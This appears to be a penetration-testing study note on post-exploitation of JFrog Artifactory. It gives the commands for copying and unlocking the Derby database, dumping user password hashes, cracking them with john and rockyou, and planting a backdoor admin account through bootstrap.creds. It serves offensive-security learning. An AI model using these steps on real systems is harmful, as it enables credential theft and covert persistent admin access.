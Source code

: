 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Artifactory
---
```

<span style="font-size: 35px; color:red"><b>Artifactory</b></span>

<span style="color:red">Binary Repository Manager</span> that stores software packages and other binaries installed in <span style="color:red">/opt/jfrog</span>. If it's running, it will run as webserver on port 8082 locally or port 8081 remotely.
To prevents developers from getting untrusted or unstable binaries directly from the Internet.

To Start:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To see whether an Artifactory repo is running on the system:
```shell
ps aux | grep artifactory
```

Login page at <span style="color:red">http://<domain>:8082/</span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Credentials</b></span>
The open-source version of Artifactory creates database backups for the user accounts at /<Artifactory_Folder>/var/backup/access in JSON format.
The password is in bcrypt format and can be cracked as follows:
```shell
sudo john derbyhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Compromising Artifactory Database</b></span>
If there are no backup files available, we can access the database itself or attempt to copy it and extract the hashes manually.
Copy the database to a temporary location and unlock it:
```shell
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo chmod 755 /tmp/hackeddb/derby
sudo rm /tmp/hackeddb/derby/*.lck
```

If it's using Apache's Derby, install Apache's derby tools. <span style="color:red">ij</span> tool allows you to handle the database and query it:
```shell
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
```
From there:
```shell
select * from access_users;
```
and you'll see the passwords.
&nbsp;

---
&nbsp;

<span style="font-size: 25px; color:white"><b>Adding a Secondary Artifactory Admin Account</b></span>
This method requires write access to the /opt/jfrog/artifactory/var/etc/access folder and the ability to change permissions on the newly-created file, which usually requires _root_ or _sudo_ access.
In there, create a `bootstrap.creds` like so:
```shell
haxmin@*=haxhaxhax
```
creating a new user <span style="color:red">haxmin</span> with password <span style="color:red">haxhaxhax</span>. Set permissions to 600:
```shell
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
```
Now reboot the process:
```shell
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

To check if everything went smooth:
```shell
sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
```
